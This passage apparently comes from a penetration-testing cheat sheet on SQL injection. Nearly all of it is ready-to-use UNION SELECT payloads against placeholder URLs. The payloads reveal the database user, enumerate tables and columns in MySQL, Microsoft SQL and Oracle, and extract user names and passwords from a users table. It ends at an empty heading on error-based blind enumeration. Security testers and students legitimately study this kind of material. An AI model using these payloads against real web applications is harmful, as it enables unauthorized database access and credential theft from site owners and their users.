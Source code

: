 <span id="anchor-151"></span>Discover Database User

|                                                                            |
| -------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,user(),6 |

<span id="anchor-152"></span>Enumerating Table Names (MySQL, Microsoft
SQL)

This example is injecting a “union all select” statement to place the
list of table names into column 5

|                                                                                                                 |
| --------------------------------------------------------------------------------------------------------------- |
| http://\<someserver\>/comment.php?id=758 union all select 1,2,3,4,table\_name,6 FROM information\_schema.tables |

|                                                                              |
| ---------------------------------------------------------------------------- |
| %' and 1=0 union select null, table\_name from information\_schema.tables \# |

<span id="anchor-153"></span>Enumerating Column Names of a Table (MySQL,
Microsoft SQL)

This example is injecting a “union all select” statement to list the
column names of the supplied talle.

|                                                                                                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| http://**\<server\>**/**\<somefile\>**.php?**\<somevariable\>**=**\<somevalue\>** union all select 1,2,3,4,column\_name,6 FROM information\_schema.columns where table\_name=’**\<table\_name\>**’ |

|                                                                                                             |
| ----------------------------------------------------------------------------------------------------------- |
| %' and 1=0 union select null, column\_name from information\_schema.columns where table\_name = 'users' \#” |

<span id="anchor-154"></span>Enumerating Table Names (Oracle)

|                                     |
| ----------------------------------- |
| SELECT table\_name FROM all\_tables |

<span id="anchor-155"></span>Enumerating Column Names (Oracle)

|                                                                                      |
| ------------------------------------------------------------------------------------ |
| SELECT column\_name FROM all\_tab\_columns WHERE table\_name = '**\<table\_name\>**' |

<span id="anchor-156"></span>Collecting Specific Information

|                                              |
| -------------------------------------------- |
| %' UNION SELECT user, password from users \# |

<span id="anchor-157"></span>Error Based Blind Enumeration
